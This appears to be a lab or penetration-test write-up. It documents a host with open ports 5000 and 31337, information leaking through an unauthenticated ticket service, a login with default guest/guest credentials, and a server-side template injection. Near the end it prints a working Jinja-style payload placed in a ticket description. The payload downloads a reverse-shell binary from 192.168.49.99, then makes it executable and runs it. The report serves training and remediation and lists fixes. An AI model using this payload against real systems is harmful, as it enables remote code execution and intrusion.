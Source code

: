 # Assessment
Note: The host IP changes throughout the screenshots in the assessment as machine resets were necessary.

## Service Enumeration
### Port Scan Results
- **TCP:** 22,80,5000,31337

## Initial Access
### Vulnerability Explanation
The remote host has a HTTP service running on port 5000 with sensitive information. The sensitive information can be used to guess the password to access the ticketing service running on port 31337, which is vulnerable to server-side template injection. 
### Vulnerability Fix
Restrict access to port 5000. Enforce a stronger password policy to access the ticketing service and remove default credentials.
### Attack Walkthrough
During the port scan analysis, the tester noticed an uncommon service running on port 31337 and an HTTP server running on port 5000, which is also uncommon.

![Port 31337 open](https://imgur.com/gkRZQKA.png)

![Port 5000 reveals guest user](https://imgur.com/Cr8QBiZ.png)

With unauthenticated access to port 5000, the tester obtained access to sensitive information from the tickets, which was helpful in guessing the credentials to the ticketing service running on port 31337. The tester successfully logged in with the following credentials.
```
Username: guest
Password: guest
```

![Guest login successful](https://imgur.com/llkW0po.png)

After enumerating the service, the tester concluded that it was running a python script vulnerable to server-side template injection. The tester was able to open a new ticket and poison it with malicious code to obtain remote code execution and, consequently, a reverse shell in the system.
```bash
# In the ticketing application running on port 31337
open
Title: evil_ticket
Description: {{request.application.__globals__.__builtins__.__import__('os').popen('wget http://192.168.49.99/revshell.elf -O /tmp/revshell && chmod +x /tmp/revshell && /tmp/revshell').read()}}
```

![Malicious ticket inserted](https://imgur.com/FhWlKn5.png)
